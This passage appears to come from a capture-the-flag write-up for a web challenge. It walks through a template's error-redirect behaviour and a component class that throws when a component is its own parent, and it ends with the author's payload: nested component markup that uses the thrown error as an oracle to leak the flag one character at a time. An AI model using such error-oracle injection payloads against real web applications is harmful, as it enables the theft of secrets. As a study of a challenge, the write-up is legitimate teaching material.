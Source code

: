 ```html
            }

            textarea {
            	width: 50%;
            	height: 400px;
                font-size: 18px;
            }
        </style> 
    </head>
    <body>
        <div class="bg"></div>
        <h1>EYANG OTZ OTZ OTZ!!! 💖💖💖</h1>
        <img src="data:image/png;base64, <%= img %>"></body>
    </body>
    <% if(rick) { %>
    <script type="text/javascript">
        alert("How dare you make an error on the EYANG FAN ART!");
        window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley";
    </script>
    <% } %>
</html>
```

If our input code leads an error after generate the fanart, it'll be alert an error and then redirect to rick roll video. Let's look at the class component

```javascript
class component {
	constructor(name,parent) {
		this.name = name;
		this.parent = parent;
		this.dx = 0;
		this.dy = 0;
		this.x = 0;
		this.y = 0;
		// <text> <shape> <line> are literals
		this.literals = [];

		if(this == parent) throw "Error: parent cannot be itself!";
	}

	toString() { return this.name; }
}
```

It checks if the component equals to the parent, it will throw an error which will alert. So what we gonna do here is we'll define a new component which has its parent equals to parent and we'll check every single word of flag component, so if it's right, it'll throw the error because of its `component == parent` just like the code. And we can also see the `toString()` function which means it will return to us a string, so we'll use `innerText` to have it show up.

final payload (by the author)
```javascript
<component name="clown">
<component name="parent">
<component name="flag">
<component name="literals">
<component name="0">
<component name="innerText">
<component name="0"> <!-- this is the ith character -->
<component name="L"> <!-- this is the character that we want to check -->

</component>
</component>
</component>
```